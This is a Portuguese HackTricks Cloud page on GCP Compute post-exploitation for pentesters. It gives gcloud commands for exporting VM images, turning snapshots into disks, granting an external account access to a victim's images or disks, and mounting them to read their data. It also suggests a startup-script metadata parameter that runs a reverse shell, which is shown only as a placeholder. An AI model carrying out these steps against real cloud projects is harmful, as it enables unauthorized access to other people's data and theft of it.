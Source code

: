 # GCP - Pós Exploração de Computação

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>

## Computação

Para mais informações sobre Computação e VPC (Rede) verifique:

{% content-ref url="../../gcp-pentesting/gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-pentesting/gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Exportar e Inspeccionar Imagens localmente

Isso permitiria a um atacante **acessar os dados contidos em imagens já existentes** ou **criar novas imagens de VMs em execução** e acessar seus dados sem ter acesso à VM em execução.

É possível exportar uma imagem de VM para um bucket e depois baixá-la e montá-la localmente com o comando:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Antes de realizar esta ação, o atacante pode precisar de privilégios sobre o bucket de armazenamento e com certeza **privilégios sobre o cloudbuild** pois é o **serviço** que será solicitado para realizar a exportação. Além disso, para que isso funcione, o SA do cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` precisa de permissões privilegiadas:

- roles/iam.serviceAccountTokenCreator
- roles/compute.admin
- roles/iam.serviceAccountUser

E o SA `<project-id>-compute@developer.gserviceaccount.com` precisa de:

- roles/compute.storageAdmin
- roles/storage.objectAdmin

### Exportar e Inspeccionar Snapshots e Discos localmente

Não é possível exportar diretamente snapshots e discos, mas é possível **transformar um snapshot em um disco, um disco em uma imagem** e seguindo a **seção anterior**, exportar essa imagem para inspecioná-la localmente

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Inspeção de uma Imagem criando uma VM

Com o objetivo de acessar os **dados armazenados em uma imagem** ou dentro de uma **VM em execução** de onde um atacante **criou uma imagem**, é possível conceder acesso a uma conta externa sobre a imagem:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
e depois criar uma nova VM a partir dele:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Se você não puder dar acesso à sua conta externa sobre a imagem, você poderia lançar uma VM usando essa imagem no projeto da vítima e **fazer com que os metadados executem um shell reverso** para acessar a imagem adicionando o parâmetro:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspeção de um Snapshot/Disk ao anexá-lo a uma VM

Com o objetivo de acessar os **dados armazenados em um disco ou snapshot, você pode transformar o snapshot em um disco, um disco em uma imagem e seguir os passos anteriores.**

Ou você pode **conceder acesso a uma conta externa** sobre o disco (se o ponto de partida for um snapshot, conceda acesso sobre o snapshot ou crie um disco a partir dele):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Anexar o disco** a uma instância:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Monte o disco dentro da VM:

1.  **Acesse a VM via SSH**:

```sh
gcloud compute ssh [NOME_DA_INSTÂNCIA] --zone [ZONA]
```
2. **Identifique o Disco**: Uma vez dentro da VM, identifique o novo disco listando os dispositivos de disco. Normalmente, você pode encontrá-lo como `/dev/sdb`, `/dev/sdc`, etc.
3. **Formate e Monte o Disco** (se for um disco novo ou não formatado):
*   Crie um ponto de montagem:

```sh
sudo mkdir -p /mnt/disks/[DIRETÓRIO_DE_MONTAGEM]
```
*   Monte o disco:

```sh
sudo mount -o discard,defaults /dev/[DISPOSITIVO_DE_DISCO] /mnt/disks/[DIRETÓRIO_DE_MONTAGEM]
```

Se você **não pode dar acesso a um projeto externo** para o snapshot ou disco, talvez precise **realizar essas ações dentro de uma instância no mesmo projeto do snapshot/disco**.
